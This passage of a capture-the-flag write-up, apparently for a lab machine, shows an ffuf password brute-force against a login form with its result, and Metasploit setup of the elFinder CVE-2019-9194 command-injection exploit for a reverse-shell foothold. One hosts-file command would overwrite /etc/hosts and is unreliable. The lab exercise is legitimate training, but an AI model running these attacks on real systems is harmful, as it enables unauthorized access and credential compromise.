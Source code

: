 
---

# Initial Access

Now we can try enumerating through a password wordlist for `jose` (I filtered size 62 since that was the response size for an incorrect password, but it'd probably be best practice to match the status of 302 (redirect code)).
```
┌──(averie㉿kali_wsl)-[/usr/share/seclists/Usernames]
└─$ ffuf -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=jose&password=FUZZ" -w "/usr/share/wordlists/rockyou.txt" -u http://lookup.thm/login.php -fs 62 -c

...

password123             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 123ms]
```

Logging in with these credentials sends us to another unresolvable domain, notably because of the subdomain `files.` (`files.lookup.thm`). We'll `sudo echo "RHOST files.lookup.thm" > /etc/hosts` and navigate to the URL.

![](elfinder_lookup.png)

Looks like we're in an encrypted file server. `credentials.txt` reads `think : nopassword` and attempting these credentials anywhere (SSH, the form to the file server) didn't work. However, navigating to "About this software" (the question mark icon) yielded our potential primary attack vector.

![](elfinder_version_info.png)

With a quick Google search, I found that elFinder v2.1.47 is in fact vulnerable to [CVE-2019-9194](https://www.rapid7.com/db/modules/exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection/). CVE-2019-9194 is available as a default Metasploit module as `exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection`.

---

# Foothold

```
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set RHOSTS RHOST
RHOSTS => RHOST
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set VHOST files.lookup.thm
VHOST => files.lookup.thm
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set LPORT 5000
LPORT => 5000
```
- `LHOST` was set to listen on all interfaces becuz
- `LPORT` is an arbitrary port
- I left the default `TARGETURI` as `/elFinder`
